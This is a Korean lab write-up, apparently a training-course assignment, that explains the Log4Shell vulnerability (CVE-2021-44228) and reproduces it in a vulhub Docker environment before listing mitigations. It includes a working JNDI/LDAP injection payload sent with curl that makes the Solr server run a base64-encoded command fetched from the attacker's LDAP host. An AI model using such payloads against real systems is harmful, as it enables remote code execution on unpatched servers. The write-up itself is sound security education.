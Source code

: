 ```yaml
---
title: "[WHS]2주차 log4j CVE-2021-44228 분석(Vulnhub 한글화하기)"
categories: [WhiteHatSchool, task]
mermaid: true
pin: true
tag:
- whitehatschool
- 화이트햇스쿨
- vulnhub
- preBoB
- CVE
- CVE-2021-44228
- log4j
- log4shell
- 집단지성
---
```


# 개요
이번 Write up 에서는 [https://github.com/vulhub/vulhub](https://github.com/vulhub/vulhub) Repository vulhub을 기반으로한 한국어 번역 및 컨텐츠 추가에대한 과제로 내가 선택한 취약점인 log4shell이라고 불리는 log4j의 취약점인 `CVE-2021-33228`에 대해 작업을 진행했습니다.

**Contributors**
- [김지민 (@Jimin0605)](https://github.com/Jimin0605)

**github repository**
- #TODO

<br>

| 정보             | 설명                                             |
| ----------------| ------------------------------------------------ |
| **이름**         | Log4shell(CVE-2021-44228)                |
| **심각도**       | 심각                                            |
| **CVSS**        | 10.0                                              |
| **CVSS String** | 10.0 CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H   |



### Log4shell이란
#### JNDI
우선 JNDI(Java Naming and Directory Interface)는 클라이언트나 서버에서 제공하는 데이터 및 객체를 lookup하기 위한 자바 API다. 쉽게말해 연결하고 싶은 데이터베이스의 DB Pool을 미리 Naming 시켜주는 방법중에 하나이다. WAS의 데이터베이스 정보에 JNDI를 설정해 놓으면 웹 애플리케이션은 JNDI만 호출하면 간단하게 데이터를 전달할 수 있다.

따라서 LDAP서버에서 JNDI를 이용해 디렉토리 서비스에 연결하고 객체를 가져와 보내기위해 사용할 것이다.

#### Log4j
Log4j는 로그에 대한 라이브러리이다. 그냥 기본적인 log기능으로 대체하면 되지 않나 싶지만. Log4j는 로그를 포맷팅, 필터링이 가능하고, 어플리케이션의 파일로 이를 기억하는것 이외에도 정말 유용한 기능들이 있기에 개발자 에게는 매우 좋은 라이브러리이다. 

#### Log4shell
Log4shell의 취약점은 log4j의 lookup기능중 JNDI looup기능을 지원으로 발생한 취약점이다.log4j가 로깅을 하는 부분에서 `$(jndi:ldap:[LDAP_IP])`와같은 메세지를 남기면 해당 서버에 접속해 객체를 참조하게되는데, 즉 해당 서버에 명령어를 입력하는 객체를 참조하게 될 경우 RCE취약점이 발생되므로 굉장히 위험한 공격이다. 추가로 더해서 로깅을 하는 부분은 로그인, 사용자이름, 와이파이이름 등 사용하기 나름대로 정말 다양해 사용자이름을 바꾸던가, 와이파이이름을 바꾸는 것만으로도 취약점 공격이 가능하다는 점에서 굉장히 파급력이 크다.

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/1.png)

<br>

log4j는 2015년 Oracle에 따르면 Java는 130억개의 기기에서 구동중이다. 이렇게 많이 사용하는 만큼 애플, 텐센트, 아마존, 테슬라, 클라우드플레어, 스팀, 마인크래프트, 구글, github 등 정말 많은 대기업들이 이 Log4shell취약점에 노출되어있었다. 

결론적으로 log4shell은 당시 해당 취약점이 있는 log4j를 사용중인 회사는 굉장히 많고, 공격하기도 굉장히 쉽고, 효과도 엄청난 Zero-day 취약점이라는것이다.

<br>

### 실습
#### 실습환경 구축
실습환경으로는 docker로 구축을 할것이다.

|Attacker       |Victim     |
|:-------------:|:---------:|
|Ubuntu:latest  |solr:8.11.0|

docker hub에서 2개의 image들을 pull한다.
```bash
$ docker pull vulhub/solr:8.11.0
$ docker pull antimony02/log4shell_jndi
```

여기서 vulhub/solr:8.11.0은 log4shell 취약점이 있는 Victim서버이고, antimony02/log4shell_jndi는 악성 Class 파일을 다운로드 할 수 있도록 설계된 LDAP서버이다. 이것을 이용해 log4shell 공격으로 solr서버를 공격할 것이다.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/2.png)

docker pull이 완료된 이후에 `docekr compose up -d`로 컨테이너를 실행시켜준다. 컨테이너를 끌때는 `docker compose down`을 하면 된다. 실행을 완료한 후에 Attacker 컨테이너의 log를 확인해 LDAP서버도 제대로 열렸는지와 해당 서버의 IP를 확인한다.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/3.png)
```bash
$ docker ps # 컨테이너 ID확인
$ docker logs ID
```

여기까지 오류없이 잘 작동이 됐으면 환경 구축은 완료했다.

<br>

#### Log4shell 공격
log4shell취약점은 로깅을 하는데에서 발생하므로 어떤부분에서 로깅이 발생하는지 살펴봐야한다. 간단히 말해서 `${jndi:dns://${sys:java.version}.example.com}` 이 JNDI쿼리를 트리거할 수 있는 부분에 이 페이로드를 넣어야한다.

vulnhub에서는 `/solr/admin/cores?action=${jndi:dns://${sys:java.version}.example.com}`

이경로를 통해 페이로드를 삽입하겠다.

```bash
curl 'http://127.0.0.1:8983/solr/admin/cores?action=$\{jndi:ldap://{LDAP_IP}:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQ=\}'
```
이 LDAP경로는 `dG91Y2ggL3RtcC9oYWNrZWQ=`뒤쪽 base64로 인코딩된 문자열을 base64로 디코딩한 뒤 RCE를 날린다.

예시로 `touch /tmp/hacked`를 base64로 인코딩해 넣어줘 파일이 제대로 생성이 되는지 확인하겠다.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/4.png)

요청은 제대로 간것을 확인했다.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/5.png)

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/6.png)

```
2023-10-31 22:20:45 2023-10-31 13:20:44.903 INFO  (qtp860481979-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={asdf=${jndi:ldap://192.168.80.3:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQ%3D}} status=0 QTime=0
```
두 서버모두 요청이 제대로 잘 전달이 된것을 확인했고, 정말 `/tmp/hacked` 가 만들어졌는지 확인해보겠다. 확인하는 방법으로는 터미널에서 `docker exec -it victim_comtainer_ID /bin/bash`를 통해 직접 접속해 확인할 수 있다. 나는 docker desktop에서 확인해봤다.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/7.png)

잘 생성이 되었으므로 Log4shell 취약점 공격에 성공했다.


### 대응방안
해당 취약점을 막기위해서는 log4shell 취약점이 있는 버전의 log4j를 사용을 하지 않는것이다.

**Log4shell 영향을 받는 버전**
- Log4 2.0-beta9 ~ 2.14.1 이하 버전
- Log4j 2.0-beta9 ~ 2.15.0 이하 버전
- Log4j 1.x 버전

만약 어쩔 수 없는 이유로 해당 버전들을 사용할 경우에는 log4j의 JNDI LookUp을 비활성화 하고, 공격자가 알 수 없는 형태의 파라미터로 로그를 남기고, log4j를 사용하는 시스템에서 LDAP등 JNDI앤드 포인트와 통신이 불가능 할경우에 해당 취약점을 막을 수 있다.


## Reference
[CVE-2021-44228]log4j 실습 - [https://lead-earthquake-61f.notion.site/CVE-2021-44228-Log4J-a8ce8189a0da48c68e2645dcd949ceb1](https://lead-earthquake-61f.notion.site/CVE-2021-44228-Log4J-a8ce8189a0da48c68e2645dcd949ceb1)

Youtube_노마드코더 - [https://www.youtube.com/watch?v=kwS3twdVsko&t=281s](https://www.youtube.com/watch?v=kwS3twdVsko&t=281s)

vulbuh - [https://github.com/vulhub/vulhub/tree/master/log4j/CVE-2021-44228](https://github.com/vulhub/vulhub/tree/master/log4j/CVE-2021-44228)

 [https://github.com/black9/Log4shell_JNDIExploit](https://github.com/black9/Log4shell_JNDIExploit)
